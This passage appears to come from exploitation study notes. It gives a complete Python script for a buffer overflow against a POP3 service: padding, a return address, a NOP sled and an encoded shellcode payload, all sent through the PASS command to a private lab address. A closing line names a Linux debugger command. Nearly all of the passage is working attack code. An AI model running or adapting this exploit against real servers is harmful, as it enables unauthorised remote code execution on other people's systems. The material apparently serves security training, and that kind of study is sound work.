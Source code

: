 ## Example Final Code
```py
#!/usr/bin/python

import socket
s = socket.socket()

shellcode = (
"\xd9\xc1\xba\x8d\x2f\x0e\x1c\xd9\x74\x24\xf4\x5d\x29\xc9\xb1"
"\x52\x31\x55\x17\x03\x55\x17\x83\x48\x2b\xec\xe9\xae\xdc\x72"
"\x11\x4e\x1d\x13\x9b\xab\x2c\x13\xff\xb8\x1f\xa3\x8b\xec\x93"
"\x48\xd9\x04\x27\x3c\xf6\x2b\x80\x8b\x20\x02\x11\xa7\x11\x05"
"\x91\xba\x45\xe5\xa8\x74\x98\xe4\xed\x69\x51\xb4\xa6\xe6\xc4"
"\x28\xc2\xb3\xd4\xc3\x98\x52\x5d\x30\x68\x54\x4c\xe7\xe2\x0f"
"\x4e\x06\x26\x24\xc7\x10\x2b\x01\x91\xab\x9f\xfd\x20\x7d\xee"
"\xfe\x8f\x40\xde\x0c\xd1\x85\xd9\xee\xa4\xff\x19\x92\xbe\xc4"
"\x60\x48\x4a\xde\xc3\x1b\xec\x3a\xf5\xc8\x6b\xc9\xf9\xa5\xf8"
"\x95\x1d\x3b\x2c\xae\x1a\xb0\xd3\x60\xab\x82\xf7\xa4\xf7\x51"
"\x99\xfd\x5d\x37\xa6\x1d\x3e\xe8\x02\x56\xd3\xfd\x3e\x35\xbc"
"\x32\x73\xc5\x3c\x5d\x04\xb6\x0e\xc2\xbe\x50\x23\x8b\x18\xa7"
"\x44\xa6\xdd\x37\xbb\x49\x1e\x1e\x78\x1d\x4e\x08\xa9\x1e\x05"
"\xc8\x56\xcb\x8a\x98\xf8\xa4\x6a\x48\xb9\x14\x03\x82\x36\x4a"
"\x33\xad\x9c\xe3\xde\x54\x77\x06\x14\x56\x69\x7e\x28\x56\x74"
"\xc4\xa5\xb0\x1c\x2a\xe0\x6b\x89\xd3\xa9\xe7\x28\x1b\x64\x82"
"\x6b\x97\x8b\x73\x25\x50\xe1\x67\xd2\x90\xbc\xd5\x75\xae\x6a"
"\x71\x19\x3d\xf1\x81\x54\x5e\xae\xd6\x31\x90\xa7\xb2\xaf\x8b"
"\x11\xa0\x2d\x4d\x59\x60\xea\xae\x64\x69\x7f\x8a\x42\x79\xb9"
"\x13\xcf\x2d\x15\x42\x99\x9b\xd3\x3c\x6b\x75\x8a\x93\x25\x11"
"\x4b\xd8\xf5\x67\x54\x35\x80\x87\xe5\xe0\xd5\xb8\xca\x64\xd2"
"\xc1\x36\x15\x1d\x18\xf3\x35\xfc\x88\x0e\xde\x59\x59\xb3\x83"
"\x59\xb4\xf0\xbd\xd9\x3c\x89\x39\xc1\x35\x8c\x06\x45\xa6\xfc"
"\x17\x20\xc8\x53\x17\x61"
)

buffer = 'A' * 2606 + '\x8f\x35\x4a\x5f' + '\x90' * 16 + shellcode + 'C' * (3500 - 2606 - 4 - 351 - 16)

try:
    print 'Sending buffer...'
    s.connect(('192.168.1.23', 110))
    s.recv(1024)
    s.send('USER username\r\n')
    s.recv(1024)
    s.send('PASS {}\r\n'.format(buffer))
    print('Done')
except:
    print 'Could not connect to POP3'
```

# Linux Buffer Overflows
`edb --run [binary]`
